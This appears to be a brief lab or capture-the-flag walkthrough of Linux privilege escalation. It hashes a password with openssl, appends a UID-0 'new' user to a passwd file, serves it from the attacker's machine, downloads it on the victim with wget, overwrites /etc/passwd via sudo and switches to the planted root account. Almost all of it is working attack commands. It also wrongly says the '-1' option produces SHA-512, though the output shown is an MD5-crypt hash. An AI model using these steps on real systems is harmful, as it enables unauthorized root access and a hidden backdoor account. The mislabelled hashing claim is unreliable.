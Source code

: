 ## Generate a salted SHA-512 password hash using OpenSSL on your Kali Machine
```
openssl passwd -1 -salt new 123
```
- `openssl passwd`: This command is used to generate password hashes using OpenSSL.
    
- `-1`: This option specifies that the SHA-512 algorithm should be used to generate the password hash.
    
- `-salt new`: This option specifies the salt value to be used for salting the password hash. In this case, the salt value is "new".
    
- `123`: This is the plaintext password that you want to hash.
`$1$new$p7ptkEKU1HnaHpRtzNizS1`


## Add the hash to the passwd file
`echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> passwd`

## Open an HTTP Server
```
python3 -m http.server 80
```

## Get the passwd file from the victim machine
`www-data@ip-10-200-113-12:/var/www/html$ cd /tmp`
`www-data@ip-10-200-113-12:/tmp$ wget http://<kali machine IP>/passwd`

## Copy the passwd file to /etc/passwd
`sudo cp passwd /etc/passwd`

`cat /etc/passwd`
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash


## Change user
`su new`
Password: 123


